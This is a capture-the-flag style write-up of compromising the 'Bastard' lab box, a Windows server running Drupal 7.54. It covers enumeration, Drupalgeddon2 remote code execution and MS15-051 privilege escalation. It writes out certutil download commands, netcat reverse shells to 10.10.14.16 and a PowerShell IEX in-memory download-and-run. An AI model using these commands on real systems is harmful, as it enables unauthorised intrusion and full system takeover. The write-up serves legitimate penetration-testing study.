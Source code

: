 ```yaml
---
title: Bastard
tags: windows
---
```


![image](assets/79369485-07cfe400-7f1f-11ea-905d-414b9b137c70.png)

## Overview

Bastard is a Windows Server box running a content management system called Drupal. Drual 7.54 is vulnerable to CVE-2018-7600 which allows for remote code execution. Drupalgeddon was used to get the initial shell and kernel exploit (MS15-051) was used to escalate privileges to 'nt authority/system'.

## Enumeration

* Windows Server 2008 R2
* IIS 7.5
* php 5.3.28
* drupal 7.54

**Open Ports*

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.9 -oN /mnt/data/boxes/bastard/_full_tcp_nmap.txt
```

* 80/tcp - http
* 135/tcp - Microsft Windows RPC
* 49154 - Microsoft Windows RPC

## Steps (User)

Browsing to http://10.10.10.9 brought me to a drupal login page.

![image](assets/86193250-76cdd980-bb19-11ea-89db-95acc1ca972d.png)

Checking http://10.10.10.9/robots.txt showed some interesting files including /CHANGELOG.txt which reveals the version of drupal that's running.

![image](assets/79605435-ea854c00-80bd-11ea-9500-4a548c33dc3c.png)

Running a search against searchsploit for "drupal 7" shows multiple results, 3 of which apply to the version running on the box.I decided to go with drupalgeddon2.

![image](assets/79607582-6d5bd600-80c1-11ea-8a0e-9b9a04c7699f.png)


[drupalgeddon2](https://www.exploit-db.com/exploits/44449) is an exploit written in ruby which provides a root shell (if vulnerable). I made one modification to the script, "tryphpshell = false", because it appeared there was insufficient access to the web root.

```
./44449.rb http://10.10.10.9
```

> I had to use dos2unix to convert the line endings of the file because it was throwing errors (dos2unix 44449.rb)

![image](assets/79608245-a0eb3000-80c2-11ea-9077-4d893787cccf.png)

The web shell is pretty slow so I created a reverse shell with netcat. I copied the windows version of netcat to my local working directory, started a python http server in prepration to transfer files, and started a netcat listener (rlwrap nc -lvnp 4200).

> Note: rlwrap fixes the arrow key functionality for windows reverse shells. 

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

I used certutil was used to copy netcat to the target box.

```
certutil -urlcache -split -f http://10.10.14.16/nc.exe
```

With netcat now on the box I ran the command to create a reverse shell and received a callback as 'nt authority\iusr'

```
nc.exe -e cmd 10.10.14.16 4200
```

![image](assets/79614047-ba45a980-80cd-11ea-9f36-b4085af58e80.png)


## Steps (root/system)

Running systeminfo showed N/A for hotfixes so at this point I decided to run Sherlock and check for exploits.

> I attempted this with [Watson](https://github.com/rasta-mouse/Watson) but unfortunately I was not able to compile it for .Net 2.0.

Sherlock.ps1 was copied to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I then used Powershell Invoke-Expression (IEX) to pull sherlock.ps1 from my box and run it in memory, executing the Find-AllVuns function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.16/Sherlock.ps1');Find-AllVulns"
```

![image](assets/79620360-a144f480-80dd-11ea-9b2c-7a58ae4b79fc.png)

Reviewing the results, the box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server using certutil.

```
certutil -urlcache -split -f http://10.10.14.16/ms15-051x64.exe
```

I set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit providing my IP and port as parameters
```
ms15-051x64 -e cmd.exe 10.10.14.16 4201
```

![image](assets/79620972-c0dd1c80-80df-11ea-8304-137875abf87e.png)

A callback was received and I received a shell as nt authority/system

![image](assets/79621003-d2bebf80-80df-11ea-89bc-7fa5551df4be.png)
